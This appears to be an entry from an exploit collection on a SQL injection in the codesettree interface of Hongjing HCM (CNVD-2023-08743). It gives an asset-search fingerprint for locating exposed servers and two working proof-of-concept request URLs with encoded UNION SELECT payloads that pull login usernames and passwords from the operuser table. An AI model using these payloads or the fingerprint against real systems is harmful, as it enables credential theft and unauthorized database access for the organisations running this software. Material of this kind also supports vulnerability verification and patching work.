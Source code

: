 # Hongjing HCM codesettree SQL injection vulnerability CNVD-2023-08743

## Vulnerability Description

The HCM codesettree interface has a SQL injection vulnerability, and the attacker can obtain the account password and database information of the login system through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Hongjing HCM</span>

## Network surveying and mapping

app="HJSOFT-HCM"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1683867071190-3dd51bbf-781c-402c-9664-b769099d6c2a.png)

Verify POC

```php
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1686056902027-f31d6443-4eac-449e-9228-23edc783f56f.png)